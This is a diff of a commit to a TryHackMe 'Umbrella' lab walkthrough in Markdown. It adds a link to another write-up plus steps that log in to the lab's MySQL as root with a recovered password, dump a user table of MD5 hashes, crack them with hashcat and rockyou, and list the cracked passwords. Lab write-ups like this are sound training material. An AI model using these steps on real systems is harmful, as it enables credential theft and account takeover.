

Before and after one commit to r1skkam/TryHackMe-Walkthroughs, a Markdown page: umbrella/umbrella.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/umbrella/umbrella.md
+++ b/umbrella/umbrella.md
@@ -1,6 +1,8 @@
 ### 23-Jan-24-Tue
 
 [TryHackMe | Umbrella](https://tryhackme.com/room/umbrella)
+
+https://0xb0b.gitbook.io/writeups/tryhackme/2024/umbrella
 
 ![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/d9b55650-ab19-4288-9392-db8f6f2816db)
 
@@ -214,3 +216,40 @@ curl -s http://umbrella.thm:5000/v2/umbrella/timetracking/manifests/latest
    ]
 }
 ```
+
+```
+mysql -h umbrella.thm -u root -p
+```
+
+```
+Ng1-f3!Pe7-e5?Nf3xe5
+```
+
+![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/68bda6d6-0f38-4447-929c-02af9d361208)
+
++----------+----------------------------------+-------+
+| user     | pass                             | time  |
++----------+----------------------------------+-------+
+| claire-r | 2ac9cb7dc02b3c0083eb70898e549b63 |   360 |
+| chris-r  | 0d107d09f5bbe40cade3de5c71e9e9b7 |   420 |
+| jill-v   | d5c0607301ad5d5c1528962a83992ac8 |   564 |
+| barry-b  | 4a04890400b5d7bac101baace5d7e994 | 47893 |
++----------+----------------------------------+-------+
+
+![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/e0227ef8-baea-4d8d-a835-0a0de57876a3)
+
+![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/28f21b9b-b6f1-448d-823b-269dc015de84)
+
+```
+hashcat -a 0 -m 0 hashes /usr/share/wordlists/rockyou.txt --show
+```
+
+![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/445a2487-b95a-4f75-a86d-be03dca1e604)
+
+```
+2ac9cb7dc02b3c0083eb70898e549b63:Password1
+0d107d09f5bbe40cade3de5c71e9e9b7:letmein
+d5c0607301ad5d5c1528962a83992ac8:sunshine1
+4a04890400b5d7bac101baace5d7e994:sandwich
+```
+
````
Also changed, not shown: other parts of umbrella/umbrella.md (+21 -0 lines).
